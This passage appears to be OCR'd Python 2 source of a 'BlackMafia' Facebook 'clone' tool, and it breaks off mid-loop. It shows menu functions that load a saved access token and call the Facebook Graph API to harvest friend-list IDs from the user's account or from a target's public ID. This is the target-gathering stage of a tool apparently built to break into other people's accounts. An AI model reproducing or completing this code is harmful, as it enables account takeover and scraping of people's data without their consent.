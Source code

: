 
def pilih():
	unikers = raw_input("\n\033[1;94mChoose an Option>>> \033[1;97m")
	if unikers =="":
		print "\x1b[1;97mFill in correctly"
		pilih()
	elif unikers =="1":
		super()
	elif unikers =="0":
		jalan('Token Removed')
		os.system('rm -rf login.txt')
		keluar()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih()


def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\x1b[1;94mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print "\033[1;97m-•◈•-\033[1;97m> \033[1;97m1.\x1b[1;94mClone From Friend List."
	print "\033[1;97m-•◈•-\033[1;97m> \033[1;97m2.\x1b[1;94mClone Friend List Public ID."
	print "\033[1;97m-•◈•-\033[1;97m> \033[1;97m0.\033[1;97mBack"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;97mChoose an Option>>> \033[1;97m")
	if peak =="":
		print "\x1b[1;94mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;94mBlackMafia\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"
		jalan('\033[1;94mGetting IDs \033[1;94m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;97m[•◈•] \033[1;94mEnter ID\033[1;97m: \033[1;97m")
		print "\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;94mPagal\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;97mName\033[1;97m:\033[1;94m "+op["name"]
		except KeyError:
			print"\x1b[1;97mID Not Found!"
			raw_input("\n\033[1;97m[\033[1;94mBack\033[1;97m]")
			super()
		print"\033[1;94mGetting IDs\033[1;97m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']: